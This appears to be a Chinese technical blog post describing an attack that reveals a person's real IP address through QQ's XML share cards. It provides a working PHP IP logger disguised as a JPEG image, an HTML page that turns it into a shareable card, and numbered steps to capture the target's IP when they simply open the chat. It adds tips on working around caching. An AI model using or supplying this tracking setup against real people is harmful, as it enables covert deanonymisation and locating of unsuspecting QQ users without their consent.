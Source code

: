 ```yaml
---
title: 利用QQ XML卡片获取真实IP
date: 2024-11-11 13:44:24
categories: [技术, 安全, 开源情报]
tags: [PHP]
---
```

<b>前言：</b>QQ提供了一个卡片功能：在QQ内打开一个网页后，点右上角分享可以把此网页分享到任意群聊或好友。这种分享和直接发链接的区别是，对方在聊天框看到的不是链接文本，而是一张包含了网站缩略图、站点标题和摘要的xml卡片。分享后，对方一旦点开聊天窗口窥屏，这个卡片（还有它身上的图片）就会被显示出来，等于此人访问了站点上的一张图片。基于此原理，我们有希望在对方完全不点击链接的情况下获取对方IP地址。

## 一、攻击环境搭建

这里使用的攻击环境如下：

* <b>Ubuntu</b> 22.04 <b>VPS</b>
* <b>Apache</b> 2.4.52 (Ubuntu)
* <b>PHP</b> 8.1.2-1ubuntu2.18

为了创建一张QQ卡片，我们需要一个http网站来存放攻击脚本。方便起见，这里假设你已经有了一个配置好的Apache网页服务器。

首先在网站的根目录内创建攻击脚本iptest.php如下：

```php
<?php 

    //防注入函数
    function filter_dangerous_words($str){
        $str = str_replace("'", "‘", $str);
        $str = str_replace("\"", "“", $str);
        $str = str_replace("<", "《", $str);
        $str = str_replace(">", "》", $str);
        return $str;
    }
    
    //获取真实IP函数
    function getIP() {
        if (getenv('HTTP_CLIENT_IP')) {
        $ip = getenv('HTTP_CLIENT_IP');
        }
        elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $ip = getenv('HTTP_X_FORWARDED_FOR');
        }
        elseif (getenv('HTTP_X_FORWARDED')) {
        $ip = getenv('HTTP_X_FORWARDED');
        }
        elseif (getenv('HTTP_FORWARDED_FOR')) {
        $ip = getenv('HTTP_FORWARDED_FOR');
 
        }
        elseif (getenv('HTTP_FORWARDED')) {
        $ip = getenv('HTTP_FORWARDED');
        }
        else {
        $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
 
    //生成输出内容
    $ip = getIP();
    @$referer = $_SERVER['HTTP_REFERER']."\r\n";
    $ua = $_SERVER['HTTP_USER_AGENT']."\r\r";
    date_default_timezone_set("Asia/Shanghai");
    $date_ = date("Y.m.d,h:i:sa")."\r\n";
    
    //输出为hack.txt文件
    $hack = 'date: '.$date_.'ip:'.$ip."\r\n".'referer: '.$referer.'ua: '.$ua;
    $hack = filter_dangerous_words($hack);
    $op = fopen('hack.txt','a+');
    fwrite($op,$hack);
    fclose($op);
	  
	  //将此php文件伪装为一张jpg图片
	  //这样php返回的图片就会是同目录下的icon.jpg文件。
	$im = imagecreatefromjpeg("icon.jpg");
    header('Content-Type: image/jpeg');
    imagejpeg($im);
    imagedestroy($im);
 ?>
```

然后，为了生成卡片，我们还需要制作一个简单的网页iptest.html（与iptest.php、icon.jpg这两个文件处于同一个目录下），该网页的内容就是卡片上的内容：

```html
<!DOCTYPE html>
<html>
<head>
	<meta itemprop="name" content="XML卡片标题" />
	<meta itemprop="description" content="XML卡片描述" />
	<meta itemprop="image" content="文件路径，本例中为iptest.php?abcdefg" />
	<title>标题</title>
</head>
<body>
</body>
</html>
```

这里需要注意的是，iptest.php文件链接需要在其后带一串无效参数才能正常转换为短链接，此处用了abcdefg。因为qq分享机制的原因，导致直接分享出去的xml卡片会先将图片地址转换为腾讯的图床，所以探测链接不会生效。

在两个文件上传服务器之后，确保再上传一张命名为icon.jpg的图片文件就配置完毕了。

## 二、攻击方法

出于方便，攻击时不采用QQ插件发送方式，而采用直接分享生成的XML卡片。步骤如下：

1. 首先qq内打开iptest.html文件的链接，点击右上角，此时还未选择分享方式，未获取到ip；
2. 然后点击“好友”，到达选择好友界面，此时云端生成xml卡片，iptest.php文件链接被转换为腾讯短链，获取到了短链服务器的ip；
3. 选择好友，确认是否发送，本机预览消息，此时获取到本机ip；
4. 点击发送，聊天记录漫游到服务器，此时获取到腾讯服务器ip；
5. 目标点开聊天记录，自动读取了xml卡片，此时获取到目标ip。

上面说明获取顺序的时候，是按操作顺序写的，实际上获取到的服务器ip记录时间不一定按照你的操作顺序记录。但因为目标是最后一个收到的，所以最后一个基本就是目标ip。不排除特殊情况，需要随机应变。鉴于单次攻击会获取到多个ip，记得每一次探测后删除hack.txt文件或改名，以免下一次使用时搞混。

## 三、Q&A

<b>Q：</b>配置好攻击环境后能反复使用，以在hack.txt中记录多个目标ip吗？

<b>A：</b>不能。攻击链接是一次性的。

首先是所有的链接都会受到缓存的限制，所以一个iptest.php链接只能对一个目标生效一次，可以通过修改后面的无效参数（刚才的abcdef）来更新缓存。

其次就是某些时候iptest.html文件链接在qq内打开时会存在该页面本身被缓存的情况，导致iptest.php文件链接不会更新，缓存自然不会更新，所以无法成功获取ip，这种情况下hack.txt不会记录ip，所以比较好判断。可以通过更改iptest.html文件名来更新页面的缓存。
